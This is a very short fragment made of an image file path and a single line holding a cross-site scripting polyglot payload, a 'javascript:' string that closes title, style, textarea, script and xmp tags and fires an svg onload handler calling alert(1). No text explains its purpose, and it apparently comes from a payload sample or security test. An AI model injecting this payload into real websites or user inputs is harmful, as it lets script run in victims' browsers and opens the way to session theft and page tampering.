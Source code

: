 javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
